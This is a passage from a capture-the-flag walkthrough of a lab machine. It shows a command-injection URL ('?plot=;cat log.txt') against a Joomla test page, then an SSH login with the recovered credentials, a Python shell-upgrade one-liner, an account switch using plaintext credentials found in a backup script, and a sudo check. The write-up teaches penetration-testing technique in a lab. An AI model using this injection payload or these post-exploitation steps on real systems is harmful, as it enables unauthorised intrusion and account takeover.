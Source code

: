 ![id](https://imgur.com/5EpdieK.png)

The RCE has been proven to work. There is a file called log.txt. Executing this URL will show the contents of log.txt:

<pre>http://10.10.208.159/joomla/_test/index.php?plot=;cat log.txt</pre>

![cat log.txt](https://i.imgur.com/iStLnCA.png)

## Question 2

This has given us a username and password (censored). Let's use this to connect by SSH. As we identified earlier, the port 55007 is open for SSH so we need to specify this port when connecting via SSH:

<pre>ssh basterd@10.10.208.159 -p 55007</pre>

![ssh](https://imgur.com/Jtc5w1r.png)

Upgrade the shell with the following command:

<pre>python -c 'import pty; pty.spawn("/bin/bash")'</pre>

There is a script in the current directory called backup.sh:

![script](https://imgur.com/DyBY5il.png)

There are credentials for the user "stoner" in plain text. 

<pre>USER=stoner
#s********************s</pre>

Let's change to this user:

<pre>su stoner
[censored]</pre>

![su](https://imgur.com/OFw7rSz.png)

We have some hidden files in stoners home directory /home/stoner:

![home](https://imgur.com/undefined)

The .nano is empty and .secret is the user.txt file. I spent a while looking for an actual file called user.txt but turns out it's this. 

Let's check sudo rights:

<pre>sudo -l</pre>

![sudo l](https://imgur.com/YPewmkw.png)

<pre>User stoner may run the following commands on Vulnerable:
(root) NOPASSWD: /NotThisTime/MessinWithYa</pre>
    
No that helpful as this path doesn't exist and we don't have permission to create this directory.
